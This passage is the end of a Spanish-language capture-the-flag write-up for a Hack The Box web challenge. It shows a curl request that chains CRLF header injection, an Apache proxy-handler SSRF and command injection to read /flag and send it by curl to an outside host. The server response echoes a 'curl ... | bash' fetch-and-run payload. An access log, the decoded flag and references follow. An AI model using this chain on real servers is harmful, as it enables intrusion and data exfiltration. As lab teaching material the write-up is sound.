 ```sh
$ curl -i 'http://83.136.249.227:46378/cgi-bin/attack-domain?target=x&name=v%0d%0aLocation:/hfc%0d%0aContent-Type:proxy:http://127.0.0.1/cgi-bin/attack-ip%3ftarget=::1%$(curl%2bhttps://<--REDACTED-->?flag=`cat%2b/flag*|base64`)%26name=v%0d%0a%0d%0a'
HTTP/1.1 302 Found
Date: Wed, 26 Mar 2025 03:42:19 GMT
Server: Apache/2.4.54 (Debian)
Location: ../?result=Succesfully attacked ::1%$(curl hackersfight.club:8000|bash)!
Content-Length: 331
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>302 Found</title>
</head><body>
<h1>Found</h1>
<p>The document has moved <a href="../?result=Succesfully attacked ::1%$(curl https://<--REDACTED-->?flag=`cat /flag*|base64`)!">here</a>.</p>
<hr>
<address>Apache/2.4.54 (Debian) Server at 127.0.0.1 Port 80</address>
</body></html>
```

Finalmente, recibiendo la petición desde el servidor vulnerable y consiguiendo la bandera.

```sh
$ grep flag access.log
83.136.249.227 - - [26/Mar/2025:03:42:19 +0000] "GET /?flag=SFRCe2g0bmRsMW42X200bDRrNHI1X2YwcmMzNX0= HTTP/1.1" 200 4252 "-" "curl/7.74.0"

$ echo 'SFRCe2g0bmRsMW42X200bDRrNHI1X2YwcmMzNX0='|base64 -d
HTB{h4ndl1n6_m4l4k4r5_f0rc35}
```

## Referencias útiles

- [Orange Tsai | Confusion Attacks: Exploiting Hidden Semantic Ambiguity in Apache HTTP Server!](https://blog.orange.tw/posts/2024-08-confusion-attacks-en/)
- [Pythin docs | ipaddress — IPv4/IPv6 manipulation library](https://docs.python.org/3/library/ipaddress.html)
- [RFC 4007 | IPv6 Scoped Address Architecture](https://datatracker.ietf.org/doc/html/rfc4007.html)
- [PortSwigger | Server-Side Request Forgery](https://portswigger.net/web-security/ssrf)
- [PortSwigger | OS Command Injection](https://portswigger.net/web-security/os-command-injection)
